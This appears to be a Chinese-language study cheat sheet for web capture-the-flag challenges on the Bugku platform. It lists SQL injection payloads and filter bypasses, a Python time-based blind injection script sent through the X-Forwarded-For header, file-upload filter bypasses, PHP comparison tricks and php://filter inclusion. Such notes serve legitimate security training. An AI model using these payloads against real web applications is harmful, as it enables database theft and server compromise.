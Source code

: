 ### 一般流程
1. 首先看header, veiwsource, 目录扫描
2. 有登陆, 尝试sql注入&爆破
3. 有数据库, 必然sql注入?

### 普通sql注入
0. 判断是否存在回显异常
尝试单双引号

1. 查是字符型?数值型?
若1'#成功查询, 则是字符型
若失败则是数值型

2. 确定字段数
1' order by 3# , 意思是按第三参数排序, 若报错则没有第三字段

3. 确定返回值类型(需要么?参见bugku学生管理)
0' union select 1, 2, 3, 4 #不可
0' union select '1', '2', '3', '4' #可

3. 确定offset
1' union select '1', '2', '3', '4' # 仅有id=1的数据
0' union select '1', '2', '3', '4' # 仅有1234数据

3. database()
4. information_schema.tables (使用group_concat)
5. information_schema.columns (使用group_concat)
6. 查字段

### 带字符串过滤的sql注入
1. 异或测试过滤
1'^(length('and')==0)
1'^(length('asdasd')==0)
测试结果若与下面的不同, 则存在and的过滤

2. 双写绕过, 大小写绕过

2. 空格过滤
/*x*/充当空格

3. 若上面的绕过union失效, 尝试updatexml(但需要异常回显)
1' and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),3) %23

### sql约束攻击
类似与在提供了注册功能的同时, 需要登陆admin帐号的情况下使用
注册时:
username=admin                       a&&passwd=passwd
因为sql由于字符串长度限制, 所以查询时截断username, 误认为admin, 登陆
但实测user(name varchar(20))下insert数据, 长度过长会报错, 所以这种攻击是否有效就另说了?

# insert into类型sql注入
1. 基于时间的sql注入
'+"+"(select case when substr((select table_name from information_schema.tables where table_schema=(select database()) limit 1 offset 0) from 0 for 1)='a' then sleep(30) else 0 end)) #
```
import requests as req
from lxml import etree
import base64
from tqdm import tqdm

url='http://123.206.87.240:8002/web15/'
# payload="'+"+"(select case when substr((select table_name from information_schema.tables where table_schema=(select database()) limit 1 offset %d) from %d for 1)='%s' then sleep(30) else 0 end)) #"
payload="'+"+"(select case when substr((select * from flag from %d for 1)='%s' then sleep(30) else 0 end)) #"
dic="1234567890qwertyuiopasdfghjklzxcvbnm"

dbname="w111111111111111111"
tablename=[]

for ti in range(1):
    tmp=''
    for i in range(1, 21):
        check=False
        for ch in dic:
            try:
                print(payload%(i, ch))
                resp=req.get(url, headers={'X-Forwarded-For': payload%(i, ch)}, timeout=3)
            except:
                tmp+=ch
                print(tmp)
                check=True
                break

        if check==False: break
    tablename.append(tmp)
    print(tablename)

```
2. 基于regex的sql注入
详见:<https://blog.csdn.net/hwz2311245/article/details/53941523>

3. 基于异常的sql注入
链接同上

### 文件上传
此处用burpsuite操作
1. 请求头的Content-Type大小写绕过
2. 请求数据的Content-Type改为image/png等
3. 文件后缀黑名单php, php4, php5, phps, phtml, phtm绕过
4. 屏蔽<?php: 用<?= 或 <script language="php"></script>

### 绕过

1. x==0
字符串绕过

2. x==null
%20绕过

3. is_numeric(x)==false && x==1
1%00123 字符截断
1%20123 空格字符

(%00123 绕过is_numeric()==false,  x==1不能)
(%20123 不能绕过is_numeric()==false)

4. is_numeric(x)==true && sql注入
二次注入, x专成16进制即可
```
select hex('test');
-> 0x74657374 
```

5. md5(x) == md5(y) && x!=y
数组绕过x[]=x&y[]=y
sha1同理

6. md5(x) === md5(y)

7. strcmp($x, $flag)==0
Php5.3之后版本使用strcmp比较一个字符串和数组的话,将不再返回-1而是返回0

8. true == "0"
字符串绕过

### php技巧
1. GLOBALS变量

2. 文件包含 php://filter/read=convert.base64-encode/resource=flag.php

3. php://input
可将数据放入rawbody

4. 传数组burpsuite下
numbers[]="0,0,0"
numbers=[0,0,0]

### HTTP
1. X-Forwarded-For设置ip
事实上反代服务器也会写上XFF之类的header
X-Forwarded-For：Squid 服务代理
Proxy-Client-IP：apache 服务代理
WL-Proxy-Client-IP：weblogic 服务代理
HTTP_CLIENT_IP：有些代理服务器
X-Real-IP：nginx服务代理

### 编码
1. HTML编码
```
&#75;&#69;&#89;&#123;&#74;&#50;&#115;&#97;&#52;&#50;&#97;&#104;&#74;&#75;&#45;&#72;&#83;&#49;&#49;&#73;&#73;&#73;&#125;
KEY{J2sa42ahJK-HS11III}
```

2. Base64


3. urlencode
```
// js
escape('!#') // "%21%23"
unescape('%21%23"') // !#
```

### 其他
1. 如何做到POST的同时给出GET参数?
postman: POST同时url上写GET参数, from-data写POST数据
hackbar: enable post data即可

2. JSFuck

### 问题
1. http://123.206.87.240:8006/test/hello.php?id=1
```
";if(!$_GET['id'])
{
	header('Location: hello.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'no no no no no no no';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="bugku is a nice plateform!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("f4l2a3g.txt");
}
else
{
	print "never never never give up !!!";
}
?>

http://123.206.87.240:8006/test/hello.php?id=0&b=%004123123&a=php://input
```
为何id=0不能通过?

2. sql注入, 做到这里卡题了
http://123.206.87.240:9001/sql/
http://123.206.87.240:9001/sql/do_Everythin.php#